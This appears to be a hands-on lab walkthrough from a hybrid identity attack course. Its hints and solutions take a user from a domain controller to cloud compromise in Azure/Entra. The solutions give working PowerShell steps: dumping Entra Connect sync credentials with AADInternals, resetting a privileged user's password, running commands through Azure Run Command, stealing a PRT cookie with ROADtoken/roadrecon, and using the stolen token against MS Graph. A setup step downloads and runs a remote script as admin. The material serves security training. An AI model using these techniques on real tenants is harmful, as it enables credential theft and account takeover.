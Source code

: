 creds of an SP -> azure run command -> vm that has user logged on -> steal user prt ->


# Preparations
1. RDP login to DC VM using the YOURDOMAIN\rootuser
then, run the following powershell script as admin:
    ```powershell
    # when asked, login using the ENTRA CREDS (!)
    Invoke-WebRequest -Uri "https://raw.githubusercontent.com/shackcrack007/hybrid-attacks-course-template/refs/heads/main/labs%20(for%20course%20sessions%2C%20not%20part%20of%20setup)/lab-4-full-attack-flow/lab4PreparationScript.ps1" -OutFile "C:\\lab4PreparationScript.ps1"; `
    & "C:\\lab4PreparationScript.ps1"
    ```
2. RDP login to Win11 VM using the YOURDOMAIN\user1, keep this window open in the background - you're not allowed to use it from now on.

# Instructions
1. Your goal is to find the secret.txt file 
2. forget everything you knew: from this point on you DON'T know what the admin password is (i.e. what's the password of 'user1')
3. DO NOT password reset or silver ticket (seamless sso) "user1"
3. the only thing you have is the RDP session on the DC. Good luck! 

# Hints

<details>
    <summary><b>First hint: where the secret.txt file isn't stored</b></summary>

    The file isn't on a VM
</details>


<details>
    <summary><b>Entire attack path hint (use as last resort)</b></summary>

    1. pass reset: DC vm -> reset pass of "user2" using Entra Sync credentials

    2. login to Azure as that user using your browser

    3. azure run command on Win11 VM (the VM that has user1 logged on)

    4. Steal user1 PRT Cookie by running powershell script from the Run Command extension on the Azure portal 

    5. Use PRT Cookie to get access token and authenticate using PowerShell to MS Graph API read secret.txt from storage account
</details>



## Step 1

<details>
<summary><b>Hint 1</b></summary>
    
    1. Find a way to compromise a synced user in order to jump to the cloud

    2. Recon for roles / permissions to see which user you want to compromise

    3. it's not "user1"...
</details>


<details>
    <summary><b>Hint 2</b></summary>
    
    Abuse the Entra Connect password reset feature using AADInternals
</details>



<details>
<summary><b>Solution</b></summary>
    
```powershell
Import-Module AADInternals
Get-AADIntSyncCredentials
```

Login using dumped Sync_XX account:
```powershell
# Prompt for credentials and retrieve & store access token to cache
# Enter your dumped Sync_XX account creds!
$tenantId = "YOUR_TENANT_ID"
$at = Get-AADIntAccessTokenForAADGraph -SaveToCache
Connect-AzureAD -AadAccessToken $at -TenantId $tenantId -AccountId "1b730954-1685-4b74-9bfd-dac224a7b894" # "Azure Active Directory PowerShell" app id
```

Enumerate users:
```powershell
# list on-premise, synced users with their roles
$onpremSyncedUsers = Get-AzureADUser -All $true | Where-Object { 
    $_.OnPremisesSecurityIdentifier -ne $null 
} 
$onpremSyncedUsers | ForEach-Object { 
    $user = $_; 
    Get-AzureADDirectoryRole | ForEach-Object { 
        $role = $_;
        Get-AzureADDirectoryRoleMember -ObjectId $role.ObjectId | Where-Object { $_.ObjectId -eq $user.ObjectId } | Select-Object @{Name='UserPrincipalName';Expression={$user.UserPrincipalName}}, @{Name='OnPremisesSecurityIdentifier';Expression={$user.OnPremisesSecurityIdentifier}}, @{Name='ImmutableId';Expression={$user.ImmutableId}}, @{Name='Role';Expression={$role.DisplayName}} 
    } 
} | Format-Table -Wrap -AutoSize
```
Target user2, as he holds a privileged role.. 

Reset the victim user's Entra password:
```powershell
Set-AADIntUserPassword -SourceAnchor "IMMUTABLE_ID" -Password "MYPASS" -Verbose
```
</details>


## Step 2

<details>
    <summary><b>Hint 1</b></summary>
    
    Login to Azure as that user and see what you have access to
</details>

<details>
    <summary><b>Hint 2</b></summary>

    You can find the virtual machine Win11 and using the Run Command extension execute PowerShell script on it
</details>


<details>
    <summary><b>Hint 3</b></summary>
    
    Use this ability to get a PRT Cookie so you can impersonate as that user and steal its identity and permissions
</details>

<details>
    <summary><b>Hint 4</b></summary>

    user1 is a part of the company's red team, he continuously, on a regular basis, runs scripts from his Desktop folder to map their Entra tenant attack surface. Use that to your advantage.
</details>

<details>
<summary><b>Solution</b></summary>

user1 uses roadrecon to map attack surfaces in his company's attack surface, the script is executed on a regular basis.
as we learned, roadrecon writes a file with the access token called "", we can take that access token and steal it!
1. Get the logged in user's access token: run the following command from the Run Command Window in the Azure portal:

```powershell
# Get the nonce first
roadrecon auth --prt-init 

# Get a new PRT Cookie
.\ROADtoken.exe <nonce> 

# this will AUTOMATICALLY open a browser and log in as that user (!)
roadrecon auth -r msgraph -c "1950a258-227b-4e31-a9cf-717495945fc2" --prt-cookie $prtToken 
 <eyJh... PRT COOKIE>

```
</details>


### Step 3 Hint
### Step 3 Solution

```powershell
$at = "eyJ...."
$secureAt = ConvertTo-SecureString -String $at -AsPlainText -Force
Connect-MgGraph -AccessToken $secureAt
Get-MgUser
```

### Bonus: 
Go back to the beginning, and try steal user2 using silver ticket (Seamless SSO) instead of password reset


## Don't forget
Once done, delete the lab resource groups to clean up the resources